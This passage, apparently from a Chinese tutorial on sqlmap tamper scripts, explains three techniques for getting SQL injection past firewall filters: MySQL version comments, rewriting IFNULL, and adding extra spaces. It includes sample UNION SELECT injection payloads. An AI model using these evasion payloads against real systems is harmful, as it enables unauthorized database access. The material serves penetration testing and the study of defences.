 ```
MySQL 4, 5.0 and 5.5
Oracle 10g
PostgreSQL 8.3, 8.4, 9.0
```

#### 针对过滤关键字的

**1:halfversionedmorekeywords.py**

作用：当数据库为`mysql`时绕过防火墙，每个关键字之前添加`mysql`版本评论

示例：

```
("value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa") "value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)),/*!0NULL,/*!0NULL#/*!0AND 'QDWa'='QDWa"
```

版本要求:

```
MySQL < 5.1
在以下版本做过测试:
MySQL 4.0.18, 5.0.22
```

**2:ifnull2ifisnull.py**

作用：绕过对`IFNULL`过滤。 替换类似`’IFNULL(A, B)’为’IF(ISNULL(A), B, A)’`

示例：

```
'IFNULL(1, 2)'
'IF(ISNULL(1),2,1)'
```

版本要求:

```
MySQL
SQLite (possibly)
SAP MaxDB (possibly)
在以下版本做过测试:
MySQL 5.0 and 5.5
```

**3:multiplespaces.py**

作用：围绕SQL关键字添加多个空格

示例：

```
'1 UNION SELECT foobar'
'1 UNION SELECT foobar'
```
